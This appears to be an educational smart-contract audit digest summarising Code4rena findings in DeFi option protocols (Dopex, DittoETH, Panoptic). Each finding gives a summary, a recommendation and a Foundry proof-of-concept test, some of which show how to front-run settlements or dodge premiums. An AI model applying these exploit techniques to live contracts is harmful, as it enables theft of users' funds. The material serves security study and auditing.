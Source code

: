 # ETAAcademy-Adudit: 6. Option

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>06. Option</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>option</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Put settlement

- Summary: Liquidity providers in PerpetualAtlanticVaultLP can anticipate potential losses from in-the-money put options, allowing them to withdraw liquidity before losses occur. This creates a disadvantage for slower or less technically savvy users. The issue is rooted in the predictability of settlement price thresholds and the LPs' ability to redeem collateral at any time, potentially draining available collateral and hindering market participation for other users.

- Impact & Recommendation: The severity is high because new depositors face guaranteed losses without a clear solution. Possible fixes include implementing a "cooling off period" for withdrawals or minting more shares to reward long-term holders, but both options impact the project's token economics.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-02-put-settlement-can-be-anticipated-and-lead-to-user-losses-and-bonding-dos) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.19;
    import { Test } from "forge-std/Test.sol";
    import "forge-std/console.sol";
    import { ERC721Holder } from "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";
    import { Setup } from "./Setup.t.sol";
    import { PerpetualAtlanticVault } from "contracts/perp-vault/PerpetualAtlanticVault.sol";
    contract PoC is ERC721Holder, Setup {
    // ================================ HELPERS ================================ //
    function mintWeth(uint256 _amount, address _to) public {
        weth.mint(_to, _amount);
    }
    function mintRdpx(uint256 _amount, address _to) public {
        rdpx.mint(_to, _amount);
    }
    function deposit(uint256 _amount, address _from) public {
        vm.startPrank(_from, _from);
        vaultLp.deposit(_amount, _from);
        vm.stopPrank();
    }
    function purchase(uint256 _amount, address _as) public returns (uint256 id) {
        vm.startPrank(_as, _as);
        (, id) = vault.purchase(_amount, _as);
        vm.stopPrank();
    }
    function setApprovals(address _as) public {
        vm.startPrank(_as, _as);
        rdpx.approve(address(vault), type(uint256).max);
        rdpx.approve(address(vaultLp), type(uint256).max);
        weth.approve(address(vault), type(uint256).max);
        weth.approve(address(vaultLp), type(uint256).max);
        vm.stopPrank();
    }
    // ================================ CORE ================================ //
    /**
    Assumptions & config:
        - address(this) is impersonating the rdpxV2Core contract
        - premium per option: 0.05 weth
        - epoch duration: 1 day; 86400 seconds
        - initial price of rdpx: 0.2 weth
        - pricing precision is in 0.1 gwei
        - premium precision is in 0.1 gwei
        - rdpx and weth denomination in wei
    **/
    function testPoCHigh3() external {
        // Setup starts here ----------------------------->
        setApprovals(address(1));
        setApprovals(address(2));
        setApprovals(address(3));
        mintWeth(5 ether, address(1));
        mintWeth(5 ether, address(2));
        mintWeth(25 ether, address(3));
        /// The users deposit
        deposit(5 ether, address(1));
        deposit(5 ether, address(2));
        deposit(25 ether, address(3));
        uint256 userBalance = vaultLp.balanceOf(address(1));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(2));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(3));
        assertEq(userBalance, 25 ether);
        // premium = 100 * 0.05 weth = 5 weth
        uint256 tokenId = purchase(100 ether, address(this)); // 0.015 gwei * 100 ether / 0.1 gwei = 15 ether collateral activated
        skip(86500); // expires epoch 1
        vault.updateFunding();
        vault.updateFundingPaymentPointer();
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 0.015 gwei;
        uint256 fundingAccrued = vault.calculateFunding(strikes);
        assertEq(fundingAccrued, 5 ether);
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;
        /// ---------------- POC STARTS HERE ---------------------------------------------------///
        // At this point the Core contract has purchased options to sell 100 rdpx tokens
        // The market moves against `rdpx` and the puts are now in the money
        priceOracle.updateRdpxPrice(0.010 gwei);
        // Bob, a savvy user, sees there is collateral available to withdraw, and
        // because he monitors the price he knows the vault is about to take a loss
        // thus, he withdraws his capital, expecting a call to settle.
        userBalance = vaultLp.balanceOf(address(1));
        vm.startPrank(address(1));
        vaultLp.redeem(userBalance, address(1), address(1));
        vm.stopPrank();
        vm.startPrank(address(this), address(this));
        (uint256 ethAmount, uint256 rdpxAmount) = vault.settle(tokenIds);
        vm.stopPrank();
        // Bob now re-enters the LP Vault
        vm.startPrank(address(1));
        vaultLp.deposit(weth.balanceOf(address(1)), address(1));
        vm.stopPrank();
        // Now we tally up the scores
        console.log("User Bob ends with (WETH, RDPX, Shares):");
        userBalance = vaultLp.balanceOf(address(1));
        (uint256 aBob, uint256 bBob) = vaultLp.redeemPreview(userBalance);
        console.log(aBob, bBob, userBalance);
        userBalance = vaultLp.balanceOf(address(2));
        (uint256 aDave, uint256 bDave) = vaultLp.redeemPreview(userBalance);
        console.log("User Dave ends with (WETH, RDPX, Shares):");
        console.log(aDave, bDave, userBalance);
        /**
            Bob and Dave both started with 5 ether deposited into the vault LP.
            Bob ends up with shares worth 4.08 WETH + 16.32 RDPX
            Dave ends up with shares worth 3.48 WETH + 13.94 RDPX
            Thus we can conclude that by anticipating calls to `settle`,
            either by monitoring the market or through front-running,
            Bob has forced Dave to take on more of the losses.
        */
    }
    }

  ```

  </details>

## 2.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Set minimum timeToExpiry

- Summary: The problem occurs in the PerpetualAtlanticVault contract when attempting to purchase options. If the time difference between the next funding payment and the current block time is less than 864 seconds, it causes the option pricing to use a time to expiry of 0, resulting in a revert. This leads to unexpected reverts approximately every 14 minutes during each funding epoch.

- Impact & Recommendation: Set minimum  timeToExpiry  inside  calculatePremium.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-06-bond-operations-will-always-revert-at-certain-time-when-putoptionsrequired-is-true) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testOptionPricingRevert() public {
        OptionPricingSimple optionPricingSimple;
        optionPricingSimple = new OptionPricingSimple(100, 5e6);
        (uint256 rdpxRequired, uint256 wethRequired) = rdpxV2Core
            .calculateBondCost(1 * 1e18, 0);
        uint256 currentPrice = vault.getUnderlyingPrice(); // price of underlying wrt collateralToken
        uint256 strike = vault.roundUp(currentPrice - (currentPrice / 4)); // 25% below the current price
        // around 14 minutes before next funding payment
        vm.warp(block.timestamp + 7 days - 863 seconds);
        uint256 timeToExpiry = vault.nextFundingPaymentTimestamp() -
            block.timestamp;
        console.log("What is the current price");
        console.log(currentPrice);
        console.log("What is the strike");
        console.log(strike);
        console.log("What is time to expiry");
        console.log(timeToExpiry);
        uint256 price = vault.getUnderlyingPrice();
        // will revert
        vm.expectRevert();
        optionPricingSimple.getOptionPrice(strike, price, 100, timeToExpiry);
    }

  ```

  </details>

## 3.[High] Closing a SR during a wrong redemption proposal leads to loss of funds

### Collateral added to closed SR by disputed Redemption

- Summary: A vulnerability in the DittoETH protocol can lead to a loss of funds when closing a Short Record (SR) during a wrong redemption proposal. When a user creates a redemption proposal with the proposeRedemption function, they must provide a list of SRs with the lowest collateral ratios (CR) in ascending order. If the list is incorrect, anyone can dispute it using the disputeRedemption function. However, if an SR is closed (due to liquidation, exiting, or transfer) between proposing and disputing, its collateral is added to the closed SR and cannot be recovered.

- Impact & Recommendation: Reopening closed SRs could resolve the issue but might be misused to avoid liquidations.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-dittoeth#h-06-closing-a-sr-during-a-wrong-redemption-proposal-leads-to-loss-of-funds) & [Report](https://code4rena.com/reports/2024-03-dittoeth)

<details><summary>POC</summary>

```solidity
function test_dispute_on_non_existing_sr() public {
    // setup shorts
    makeShorts({singleShorter: true});
    _setETH(1000 ether);
    skip(1 hours);
    STypes.ShortRecord memory sr1 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID);
    STypes.ShortRecord memory sr2 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+1);
    STypes.ShortRecord memory sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    uint256 cr1 = diamond.getCollateralRatio(asset, sr1);
    uint256 cr2 = diamond.getCollateralRatio(asset, sr2);
    uint256 cr3 = diamond.getCollateralRatio(asset, sr3);
    // CRs are increasing
    assertGt(cr2, cr1);
    assertGt(cr3, cr2);
    // user creates a wrong proposal
    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID + 1, shortId2: C.SHORT_STARTING_ID + 2});
    address redeemer = receiver;
    vm.prank(redeemer);
    diamond.proposeRedemption(asset, proposalInputs, DEFAULT_AMOUNT * 3 / 2, MAX_REDEMPTION_FEE);
    // on of the SRs in the proposal is closed
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT / 2, extra);
    exitShort(C.SHORT_STARTING_ID + 2, DEFAULT_AMOUNT / 2, DEFAULT_PRICE, sender);
    // SR is now closed
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    uint88 collateralBefore = sr3.collateral;
    // another user disputes the wrong proposal
    address disputer = extra;
    vm.prank(disputer);
    diamond.disputeRedemption({
        asset: asset,
        redeemer: redeemer,
        incorrectIndex: 0,
        disputeShorter: sender,
        disputeShortId: C.SHORT_STARTING_ID
    });
    // SR is still closed and collateral increased
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    assertGt(sr3.collateral, collateralBefore);
}

```

</details>

## 4.[Medium] Premia calculation can cause DOS

### Premia calculation

- Summary: Premia calculation can cause a Denial of Service (DoS) for certain addresses. If removedLiquidity is high and netLiquidity is extremely low, the calculation in `_getPremiaDeltas` will revert since the amount cannot be cast to uint128.

- Impact & Recommendation: Modify the premia calculation to handle these edge cases and use uint256 for storing premia to avoid casting issues.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-11-panoptic#m-01-premia-calculation-can-cause-dos) & [Report](https://code4rena.com/reports/2023-11-panoptic)

<details><summary>POC</summary>

```solidity
diff --git a/test/foundry/core/SemiFungiblePositionManager.t.sol b/test/foundry/core/SemiFungiblePositionManager.t.sol
index 5f09101..e9eef27 100644
--- a/test/foundry/core/SemiFungiblePositionManager.t.sol
+++ b/test/foundry/core/SemiFungiblePositionManager.t.sol
@@ -5,7 +5,7 @@ import "forge-std/Test.sol";
 import {stdMath} from "forge-std/StdMath.sol";
 import {Errors} from "@libraries/Errors.sol";
 import {Math} from "@libraries/Math.sol";
-import {PanopticMath} from "@libraries/PanopticMath.sol";
+import {PanopticMath,LiquidityChunk} from "@libraries/PanopticMath.sol";
 import {CallbackLib} from "@libraries/CallbackLib.sol";
 import {TokenId} from "@types/TokenId.sol";
 import {LeftRight} from "@types/LeftRight.sol";
@@ -55,7 +55,7 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
     using LeftRight for uint256;
     using LeftRight for uint128;
     using LeftRight for int256;
-
+    using LiquidityChunk for uint256;
     /*//////////////////////////////////////////////////////////////
                            MAINNET CONTRACTS
     //////////////////////////////////////////////////////////////*/
@@ -79,6 +79,7 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         IUniswapV3Pool(0xCBCdF9626bC03E24f779434178A73a0B4bad62eD);
     IUniswapV3Pool constant USDC_WETH_30 =
         IUniswapV3Pool(0x8ad599c3A0ff1De082011EFDDc58f1908eb6e6D8);
+    IUniswapV3Pool constant PEPE_WETH_30 = IUniswapV3Pool(0x11950d141EcB863F01007AdD7D1A342041227b58);
     IUniswapV3Pool[3] public pools = [USDC_WETH_5, USDC_WETH_5, USDC_WETH_30];

     /*//////////////////////////////////////////////////////////////
@@ -189,7 +190,8 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
     /// @notice Set up world state with data from a random pool off the list and fund+approve actors
     function _initWorld(uint256 seed) internal {
         // Pick a pool from the seed and cache initial state
-        _cacheWorldState(pools[bound(seed, 0, pools.length - 1)]);
+        // _cacheWorldState(pools[bound(seed, 0, pools.length - 1)]);
+        _cacheWorldState(PEPE_WETH_30);

         // Fund some of the the generic actor accounts
         vm.startPrank(Bob);
@@ -241,6 +243,93 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         sfpm = new SemiFungiblePositionManagerHarness(V3FACTORY);
     }

+    function testHash_PremiaRevertDueToLowNetHighLiquidity() public {
+        _initWorld(0);
+        vm.stopPrank();
+        sfpm.initializeAMMPool(token0, token1, fee);
+
+        deal(token0, address(this), type(uint128).max);
+        deal(token1, address(this), type(uint128).max);
+
+        IERC20Partial(token0).approve(address(sfpm), type(uint256).max);
+        IERC20Partial(token1).approve(address(sfpm), type(uint256).max);
+
+        int24 strike = ((currentTick / tickSpacing) * tickSpacing) + 3 * tickSpacing;
+        int24 width = 2;
+        int24 lowTick = strike - tickSpacing;
+        int24 highTick = strike + tickSpacing;
+
+        uint256 shortTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, 0, 0, 0, 0, strike, width);
+
+        uint128 posSize = 100_000_000e18; // gives > 2**71 liquidity ~$100
+
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+
+        uint256 accountLiq = sfpm.getAccountLiquidity(address(PEPE_WETH_30), address(this), 0, lowTick, highTick);
+
+        assert(accountLiq.rightSlot() > 2 ** 71);
+
+        // the added liquidity is removed leaving some dust behind
+        uint256 longTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, 0, 1, 0, 0, strike, width);
+        sfpm.mintTokenizedPosition(longTokenId, posSize / 2, type(int24).min, type(int24).max);
+        sfpm.mintTokenizedPosition(longTokenId, posSize / 2 , type(int24).min, type(int24).max);
+
+        // fees is accrued on the position
+        vm.startPrank(Swapper);
+        uint256 amountReceived = router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token1, token0, fee, Bob, block.timestamp, 100e18, 0, 0)
+        );
+        (, int24 tickAfterSwap,,,,,) = pool.slot0();
+        assert(tickAfterSwap > lowTick);
+
+
+        router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token0, token1, fee, Bob, block.timestamp, amountReceived, 0, 0)
+        );
+        vm.stopPrank();
+
+        // further mints will revert due to amountToCollect being non-zero and premia calculation reverting
+        vm.expectRevert(Errors.CastingError.selector);
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+    }
+
+    function testHash_DustLiquidityAmount() public {
+        int24 tickLower = 199260;
+        int24 tickUpper = 199290;
+
+        /*
+            amount0 219738690
+            liquidity initial 3110442974185905
+            liquidity withdraw 3110442974185904
+        */
+
+        uint amount0 = 219738690;
+
+        uint128 liquidityMinted = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                amount0
+            );
+
+        // remove liquidity in pieces
+        uint halfAmount = amount0/2;
+        uint remaining = amount0-halfAmount;
+
+        uint128 liquidityRemoval1 = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                halfAmount
+            );
+        uint128 liquidityRemoval2 = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                remaining
+            );
+
+        assert(liquidityMinted - (liquidityRemoval1 + liquidityRemoval2) > 0);
+    }
+
+    function onERC1155Received(address, address, uint256 id, uint256, bytes memory) public returns (bytes4) {
+        return this.onERC1155Received.selector;
+    }
+

```

</details>

## 5.[High] SettleLongPremium is incorrectly implemented: premium should be deducted instead of added

### premium deducted

- Summary: The `settleLongPremium` function, which is intended to settle premiums for long option holders, incorrectly adds the premium to the option owner’s account instead of deducting it. This misimplementation leads to the user receiving premium payments when they should be paying them.

- Impact & recommendation: Modify the `realizedPremia` calculation to be negative before calling `s_collateralToken.exercise()`.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-panoptic#h-01-settlelongpremium-is-incorrectly-implemented-premium-should-be-deducted-instead-of-added) & [Report](https://code4rena.com/reports/2024-04-panoptic)

<details><summary>POC</summary>

```solidity

        assetsBefore0 = ct0.convertToAssets(ct0.balanceOf(Buyers[0]));
        assetsBefore1 = ct1.convertToAssets(ct1.balanceOf(Buyers[0]));
        // collect buyer 1's three relevant chunks
        for (uint256 i = 0; i < 3; ++i) {
            pp.settleLongPremium(collateralIdLists[i], Buyers[0], 0);
        }
        assertEq(
            ct0.convertToAssets(ct0.balanceOf(Buyers[0])) - assetsBefore0,
            33_342,
            "Incorrect Buyer 1 1st Collect 0"
        );

```

</details>

## 6.[High] Incorrect validation during checking liquidity spread

### Not paying premium

- Summary: Incorrect validation during the liquidity spread check in the Panoptic protocol allows option buyers to avoid paying the premium.

- Impact & Recommendation: Correct the validation in the liquidity spread check to revert when `NetLiquidity` is zero and `TotalLiquidity` is positive.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-panoptic#m-04-incorrect-validation-during-checking-liquidity-spread) & [Report](https://code4rena.com/reports/2024-04-panoptic)

<details><summary>POC</summary>

```solidity

+   if(netLiquidity == 0 && totalLiquidity > 0) revert;
    if(netLiquidity == 0) return;

```

</details>

## 7.[Medium] `_updateSettlementPostBurn()` may not correctly reduce s_grossPremiumLast[chunkKey]

### Update premium

- Summary: The function \_updateSettlementPostBurn() does not correctly update s_grossPremiumLast[chunkKey] when legPremia == 0, leading to incorrect accounting of the premium values.

- Impact & Recommendation: Regardless of the value of legPremia, it should recalculate s_grossPremiumLast[chunkKey] when long == 0.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-panoptic#m-06-_updatesettlementpostburn-may-not-correctly-reduce-s_grosspremiumlastchunkkey) & [Report](https://code4rena.com/reports/2024-04-panoptic)

<details><summary>POC</summary>

```solidity
    function _updateSettlementPostBurn(
        address owner,
        TokenId tokenId,
        LeftRightUnsigned[4] memory collectedByLeg,
        uint128 positionSize,
        bool commitLongSettled
    ) internal returns (LeftRightSigned realizedPremia, LeftRightSigned[4] memory premiaByLeg) {
...
        for (uint256 leg = 0; leg < numLegs; ) {
            LeftRightSigned legPremia = premiaByLeg[leg];
            bytes32 chunkKey = keccak256(
                abi.encodePacked(tokenId.strike(leg), tokenId.width(leg), tokenId.tokenType(leg))
            );
            // collected from Uniswap
            LeftRightUnsigned settledTokens = s_settledTokens[chunkKey].add(collectedByLeg[leg]);
            if (LeftRightSigned.unwrap(legPremia) != 0) {
                // (will be) paid by long legs
                if (tokenId.isLong(leg) == 1) {
...
                } else {
....
                    // subtract settled tokens sent to seller
                    settledTokens = settledTokens.sub(availablePremium);
                    // add available premium to amount that should be settled
                    realizedPremia = realizedPremia.add(
                        LeftRightSigned.wrap(int256(LeftRightUnsigned.unwrap(availablePremium)))
                    );
-                   unchecked {
-                       uint256[2][4] memory _premiumAccumulatorsByLeg = premiumAccumulatorsByLeg;-
-                        uint256 _leg = leg;
-
-                        // if there's still liquidity, compute the new grossPremiumLast
-                        // otherwise, we just reset grossPremiumLast to the current grossPremium
-                        s_grossPremiumLast[chunkKey] = totalLiquidity != 0
-                            ? LeftRightUnsigned
-                                .wrap(0)
-                                .toRightSlot(
-                                    uint128(
-                                        uint256(
-                                            Math.max(
-                                                (int256(
-                                                    grossPremiumLast.rightSlot() *
-                                                        totalLiquidityBefore
-                                                ) -
-                                                    int256(
-                                                        _premiumAccumulatorsByLeg[_leg][0] *
-                                                            positionLiquidity
-                                                    )) + int256(legPremia.rightSlot() * 2 ** 64),
-                                                0
-                                            )
-                                        ) / totalLiquidity
-                                    )
-                                )
-                                .toLeftSlot(
-                                    uint128(
-                                        uint256(
-                                            Math.max(
-                                                (int256(
-                                                    grossPremiumLast.leftSlot() *
-                                                        totalLiquidityBefore
-                                                ) -
-                                                    int256(
-                                                        _premiumAccumulatorsByLeg[_leg][1] *
-                                                            positionLiquidity
-                                                    )) + int256(legPremia.leftSlot()) * 2 ** 64,
-                                                0
-                                            )
-                                        ) / totalLiquidity
-                                    )
-                                )
-                            : LeftRightUnsigned
-                                .wrap(0)
-                                .toRightSlot(uint128(premiumAccumulatorsByLeg[_leg][0]))
-                                .toLeftSlot(uint128(premiumAccumulatorsByLeg[_leg][1]));
-                       }
                   }
               }
+             if (tokenId.isLong(leg) == 0){
+                   uint256 positionLiquidity = PanopticMath
+                   .getLiquidityChunk(tokenId, leg, positionSize)
+                    .liquidity();
+
+                    // new totalLiquidity (total sold) = removedLiquidity + netLiquidity (T - R)
+                    uint256 totalLiquidity = _getTotalLiquidity(tokenId, leg);
+                    // T (totalLiquidity is (T - R) after burning)
+                   uint256 totalLiquidityBefore = totalLiquidity + positionLiquidity;
+
+                    LeftRightUnsigned grossPremiumLast = s_grossPremiumLast[chunkKey];
+                    unchecked {
+                        uint256[2][4] memory _premiumAccumulatorsByLeg = premiumAccumulatorsByLeg;
+                        uint256 _leg = leg;
+
+                        // if there's still liquidity, compute the new grossPremiumLast
+                        // otherwise, we just reset grossPremiumLast to the current grossPremium
+                        s_grossPremiumLast[chunkKey] = totalLiquidity != 0
+                            ? LeftRightUnsigned
+                                .wrap(0)
+                                .toRightSlot(
+                                    uint128(
+                                        uint256(
+                                            Math.max(
+                                                (int256(
+                                                    grossPremiumLast.rightSlot() *
+                                                        totalLiquidityBefore
+                                                ) -
+                                                    int256(
+                                                        _premiumAccumulatorsByLeg[_leg][0] *
+                                                            positionLiquidity
+                                                    )) + int256(legPremia.rightSlot() * 2 ** 64),
+                                                0
+                                            )
+                                        ) / totalLiquidity
+                                    )
+                                )
+                                .toLeftSlot(
+                                    uint128(
+                                       uint256(
+                                            Math.max(
+                                                (int256(
+                                                    grossPremiumLast.leftSlot() *
+                                                        totalLiquidityBefore
+                                                ) -
+                                                    int256(
+                                                        _premiumAccumulatorsByLeg[_leg][1] *
+                                                            positionLiquidity
+                                                    )) + int256(legPremia.leftSlot()) * 2 ** 64,
+                                                0
+                                            )
+                                        ) / totalLiquidity
+                                    )
+                                )
+                            : LeftRightUnsigned
+                                .wrap(0)
+                                .toRightSlot(uint128(premiumAccumulatorsByLeg[_leg][0]))
+                                .toLeftSlot(uint128(premiumAccumulatorsByLeg[_leg][1]));
+                    }
+                }
            }
            // update settled tokens in storage with all local deltas
            s_settledTokens[chunkKey] = settledTokens;
            unchecked {
                ++leg;
            }
        }
    }
}

```

</details>
